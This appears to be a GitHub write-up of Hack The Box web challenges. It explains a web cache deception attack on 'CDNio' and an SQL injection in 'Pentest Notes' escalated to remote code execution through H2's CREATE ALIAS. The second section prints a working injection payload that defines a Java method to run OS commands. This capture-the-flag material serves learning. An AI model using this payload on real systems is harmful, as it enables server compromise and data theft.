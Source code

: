 # Writeup_HTB_Web_Challenge
Write-up Web Challenge Hack The Box

## Table of Content
[CDNio](#cdnio)

[Pentest Notes](#pentest-notes)

[Pentest Notes](#insomnia)

## <a name="cdnio"></a> 	:triangular_flag_on_post: CDNio
Overview of the site have features: 
- register a new account with username, password, email
- search user profile

![image](https://github.com/user-attachments/assets/d621d82a-ce68-4e16-8f6a-0f4fc5fb9633)

![image](https://github.com/user-attachments/assets/d10678e2-f424-4a92-8b24-ab72c1205b6c)

We can see this web have api `/register` and `/profile`
![image](https://github.com/user-attachments/assets/0b63a3e3-e1d6-4a65-adc0-73ce8476e5a8)

Let's see source code

Noteworthy is this config file
![image](https://github.com/user-attachments/assets/eda95f81-341a-462b-b8a2-3ab544188c91)

`location ~* \.(css|js|png|jpg|jpeg|gif|ico|svg|woff|woff2|ttf|eot)$`
a regex allow all url have static extension

```
  proxy_cache cache;
  proxy_cache_valid 200 3m;
  ...
  add_header Cache-Control "public";   
```

and cache them in 3m for anyone read public. We can think of [web cache deception](https://portswigger.net/web-security/web-cache-deception) vulnerability

I have to test my hypothesis, api `/profile` have profile of user and admin. I will request to server `GET /profile/test.css`, if response returned is 200, it means the information has been cached

![image](https://github.com/user-attachments/assets/4ff05369-028c-4a92-bc58-70b5b82b92df)

If admin access `/profile/test.css`, profile admin also cache. But how to make admin access?
In folder bot have a `route.py` defined an api `/visit` request to url, line 20 will call `bot_thread()` method defined `utils/bot.py`

![image](https://github.com/user-attachments/assets/848fbe55-6ea4-4bc4-88dc-5fddd7a8345b)

`bot.py` will request to admin profile in server

![image](https://github.com/user-attachments/assets/188bb880-6461-462b-bba4-d43c119f0a66)

So, i send request uri `profile/test.css` via api `/visit`, uri will send to `bot.py` and get profile admin

![image](https://github.com/user-attachments/assets/dd358258-cb23-4d39-95c2-7d120bcff363)

Response 200 mean profile admin has been leak

![image](https://github.com/user-attachments/assets/47c10b6a-6468-442c-a422-1beb26b75c8a)

Get request to `profile/test.css` and done, receive flag

![image](https://github.com/user-attachments/assets/e12e788e-3746-4841-aef6-c36f49f0cf5e)

## <a name="pentest-notes"></a> 	:triangular_flag_on_post: Pentest Notes
Overview site, some feature:
- register, login

![image](https://github.com/user-attachments/assets/f8323701-3cd1-4b08-865f-15be739080b5)
![image](https://github.com/user-attachments/assets/1f1cfd74-b0d9-4c7a-b29e-8204d1381e34)

- list pentest, notes

![image](https://github.com/user-attachments/assets/63b1097a-c52f-4d0d-aa95-ddd078503e5a)
![image](https://github.com/user-attachments/assets/74c5f5a9-1c4d-4a25-a0ca-7f12b8a06198)

In page Note detail, we can see a parameter `name` 

![image](https://github.com/user-attachments/assets/0e306909-5323-4f44-82b3-df2fe236cb60)

Audit source, in `NotesController.java` param `name` insert to query

![image](https://github.com/user-attachments/assets/381adc91-3d7d-46de-b204-c04a1685701f)

This is SQL Injection vulnerability, we can insert query to leak data in database. 

Test the above hypothesis

![image](https://github.com/user-attachments/assets/14f2f8e5-67d0-4e0f-a92e-504e3840cf2e)

So, this web have SQL Injection, i will see schema of database to get data like table name, user. However, just NOTES table can access by query, and other tables can't get data

![image](https://github.com/user-attachments/assets/fa835a5e-9d5c-48b8-8aad-1e63cd9e6a6d)

Like table `TABLE_PRIVILEGES` i select to column in table but response 500. 
File pom.xml in source code, a dependency is h2.database, that mean this challenge use H2 database. I tried search [vulnerability about H2 DB](https://www.exploit-db.com/exploits/45506). This vulnerability about feature of database, build a ALIAS with java code to run shell in server. So, we can run java code via feature ALIAS of H2 database

I'm tried this payload, and we can pass parameter OS Command to RCE
``` java
SQL Injection' OR 1=0; CREATE ALIAS RCE AS '
    String execve(String cmd) throws java.io.IOException { 
        Process process = Runtime.getRuntime().exec(cmd); 
        java.io.InputStream inputStream = process.getInputStream(); 
        java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html");
        byte[] buffer = new byte[1024]; 
        int bytesRead; 
        while ((bytesRead = inputStream.read(buffer)) != -1) { 
            fileOutputStream.write(buffer, 0, bytesRead);
        } 
        fileOutputStream.close(); 
        inputStream.close(); 
        return "Output written to /app/target/classes/static/hola.html";
    }'; -- -
```

![image](https://github.com/user-attachments/assets/c7e0a44d-60bf-4fab-b857-82f2954d36c5)

And now, we can call ALIAS and pass OS Command

![image](https://github.com/user-attachments/assets/7994e97e-d112-4f69-8654-3c9d11e6888e)

![image](https://github.com/user-attachments/assets/edd7398a-a39a-43c0-863d-679ba74b0aa5)

![image](https://github.com/user-attachments/assets/56e60c11-77ea-442c-a851-fb6e98c0d76b)

## <a name="insomnia"></a> 	:triangular_flag_on_post: Insomnia
